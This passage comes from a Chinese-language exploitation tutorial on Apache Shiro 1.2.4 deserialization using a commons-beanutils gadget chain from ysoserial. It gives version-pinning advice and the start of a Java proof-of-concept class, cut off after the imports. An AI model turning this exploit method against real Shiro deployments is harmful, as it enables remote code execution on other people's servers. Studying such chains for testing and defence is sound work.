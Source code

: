 ![image-20230927210844261](assets/image-20230927210844261.png)

其次`ysoserial`项目中使用的`commons-beanutils`是`1.9.2`的，我们同样需要更改`commons-beanutils`的版本为`1.8.3`否则会报`serialVersionUID`异常。

![image-20230928083558164](assets/image-20230928083558164.png)

### 1、出网利用方式

利用不依赖CC链的CB链POC

```java
package ysoserial.shiropoc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import ysoserial.poc.MyExec;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.PriorityQueue;


import static ysoserial.payloads.util.Reflections.setFieldValue;

//shiro无依赖利用链，使用shiro1.2.4自带的cb 1.8.3
public class POC {


```